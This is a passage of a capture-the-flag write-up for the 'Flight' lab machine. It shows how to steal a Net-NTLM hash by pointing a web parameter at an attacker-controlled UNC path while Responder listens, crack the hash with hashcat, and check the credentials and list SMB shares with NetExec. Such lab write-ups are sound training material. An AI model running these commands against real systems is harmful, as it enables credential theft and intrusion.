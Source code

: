 The first thing I like to try when it comes to Windows machines is to steal the Net-NTLM hash. Improper input sanitization and weak passwords can led us into an easy foothold.

Started the responder `sudo responder -I tun0 -v` and processed the following GET request.

```
http://school.flight.htb/?view=//10.10.14.112/share/file
```

<img src="/assets/img/flight/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

We successfully stole and cracked the Svc_apache's hash.

```
hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
SVC_APACHE::flight:0baf9a69e4b0f59e:fd9a311cf...:<REDACTED>
```

NetExec confirms that the credentials are valid. Notice that there are multiple non-default shares and we have read permissions to them.

```bash
netexec smb 10.129.228.120 -u "svc_apache" -p '<REDACTED>' --shares
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:<REDACTED> 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ            
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ            
```
